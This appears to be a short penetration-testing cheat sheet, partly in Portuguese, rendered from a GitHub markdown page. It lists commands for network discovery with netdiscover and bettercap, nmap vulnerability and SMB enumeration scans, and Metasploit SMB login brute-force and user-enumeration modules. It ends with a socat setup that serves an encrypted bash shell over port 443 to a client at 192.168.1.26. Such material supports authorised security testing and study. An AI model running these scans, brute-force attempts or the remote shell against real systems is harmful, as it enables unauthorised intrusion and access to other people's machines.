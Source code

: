 Pentest commands
========================

## Network enumeration

netdiscover -i eth0 -P -N | cut -d ' ' -f 2

bettercap -eval "net.probe on; sleep 3;q" | cut -d' ' -f 4 | grep "\([0-9]\{1,3\}\)\.\([0-9]\{1,3\}\)\.\([0-9]\{1,3\}\).\([0-9]\{1,3\}\)" | sed $'s/\[[0-9]{1}m//g' > ips.txt


## Network scanning


### nmap

nmap -iL ips.txt -sV --version-intensity 9 --script vuln

nmap -iL ips.txt --script smb-os-discovery -p 445,139

nmap -iL ips.txt --script smb-enum-shares -p 445,139

msfconsole

### smb_login

use auxiliary/scanner/smb/smb_login

set USER_FILE /root/owncloud/Tools_Utilities/tools/linux/fuzzdb

set USERPASS_FILE /root/owncloud/Tools_Utilities/tools/linux/fuzzdb

### smb_enumusers

use auxiliary/scanner/smb/smb_enumusers

### enum4linux


## Tools

### socat

Gerando certificado para fechar conexões criptografadas

req: initiate a new certificate signing request
-newkey: generate a new private key
rsa:2048: use RSA encryption with a 2,048-bit key length.
-nodes: store the private key without passphrase protection
-keyout: save the key to a file
-x509: output a self-signed certificate instead of a certificate request
-days: set validity period in days
-out: save the certificate to a file

1) listener

    openssl req -newkey rsa:2048 -nodes -keyout cert.key -x509 -days 362 -out cert.crt
    cat cert.key cert.crt > cert.pem
    
    socat OPENSSL-LISTEN:443,cert=cert.pem,verify=0,fork EXEC:/bin/bash
 
 2) client
 
    socat - OPENSSL:192.168.1.26:443,verify=0